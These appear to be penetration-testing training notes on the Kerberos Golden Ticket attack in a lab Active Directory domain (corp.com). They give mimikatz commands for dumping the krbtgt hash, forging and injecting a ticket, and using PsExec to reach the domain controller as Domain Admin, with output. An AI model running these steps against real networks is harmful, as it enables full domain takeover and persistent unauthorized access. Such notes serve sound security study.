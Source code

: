 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Golden Ticket

**Golden Tickets** **(GTs)** are forged Kerberos TGTs created using the password hash of the `krbtgt` domain account. Possession of this hash allows attackers to **impersonate any user**, including `Domain Admins`, across the entire AD domain. This method enables persistent and stealthy privilege escalation without relying on service-specific credentials like Silver Tickets (STs). The krbtgt hash rarely changes, making Golden Tickets a durable attack vector.

In our scenario, we will attemp to move laterally as `jen` from `CLIENT74` to `DC1` via `PsExec` .

```powershell
# Check jen's access
> PsExec64.exe \\DC1 cmd.exe
...
Couldn't access DC1:
Access is denied.
```

To extract the NTML hash of the `krbtgt` account we will log into the `DC1` as `jeffadmin` who is a `Domain Admin`.

```powershell
# Extract the NTML hash of the krbtgt account
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
...
User : krbtgt
NTLM : 1693c6cefafffc7af11ef34d1c788f47
```

Creating the GT and inject it into memory does not require elevated privileges and can also be performed via a host not joined on the domain. We will need the domain SID (which we can obtain via `whoami /user`) and the krbtgt hash.

{% code overflow="wrap" %}
```powershell
# Delete any existing Kerberos tickets (CLIENT74)
mimikatz # kerberos::purge

# Creating a golden ticket
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-... /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
...
Golden ticket for 'jen @ corp.com' successfully submitted for current session

# Spawn a new session
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```
{% endcode %}

> _The `misc::cmd` command in Mimikatz launches a new `cmd.exe` session that uses the current Mimikatz security context, including any injected Kerberos tickets, ensuring the forged Golden Ticket is applied for authentication in subsequent commands._

{% code overflow="wrap" %}
```powershell
# Check jen's access
> PsExec.exe \\dc1 cmd.exe
...

>ipconfig
...
   IPv4 Address. . . . . . . . . . . : 192.168.50.70 # DC1's IP address

> whoami
corp\jen

> whoami /groups
...
CORP\Domain Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-512 Mandatory group, Enabled by default, Enabled group
...
CORP\Enterprise Admins                      Group            S-1-5-21-1987370270-658905905-1781884369-519 Mandatory group, Enabled by default, Enabled group      
```
{% endcode %}

This attack is a form of **Overpass-the-Hash** using Kerberos. If `PsExec` is run using an IP address instead of hostname (forcing NTLM), access fails.

```powershell
> psexec.exe \\192.168.50.70 cmd.exe
...
Couldn't access 192.168.50.70: 
Access is denied.
```
